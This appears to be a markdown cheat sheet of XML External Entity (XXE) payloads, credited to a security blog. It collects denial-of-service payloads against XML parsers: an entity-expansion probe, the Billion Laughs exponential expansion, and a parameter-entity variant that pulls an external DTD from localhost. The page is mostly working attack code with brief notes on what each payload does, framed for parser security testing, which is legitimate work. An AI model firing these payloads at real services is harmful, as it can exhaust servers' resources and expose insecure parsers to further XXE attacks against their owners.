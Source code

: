```yaml
---
title: XXE payloads🪗
---
```

> *Credits to this blog: [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)*

# Denial-of-Service Attacks

### Testing for Entity Support

```xml
<!DOCTYPE data [  
<!ELEMENT data (#ANY)>  
<!ENTITY a0 "dos" >  
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">  
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">  
]>  
<data>&a2;</data>
```
  
If this test is successful and and parsing process is slowed down, there is a high probability that your parser is configured insecurely and is vulnerable to at least one kind of DoS.  

### Billion Laughs Attack (Klein, 2002)

```xml
<!DOCTYPE data [  
<!ENTITY a0 "dos" >  
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">  
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">  
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">  
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">  
]>  
<data>&a4;</data>
```
  
This file expands to about 30 KByte but has a total of 11111 entity references and therefore exceeds a reasonable threshold of entity references.  
[Source](http://www.securityfocus.com/archive/1/303509)  
  

### Billion Laughs Attack - Parameter Entities (Späth, 2015)

```xml
<!DOCTYPE data SYSTEM "http://127.0.0.1:5000/dos_indirections_parameterEntity_wfc.dtd" [  
<!ELEMENT data (#PCDATA)>  
]>  
<data>&g;</data>
```
  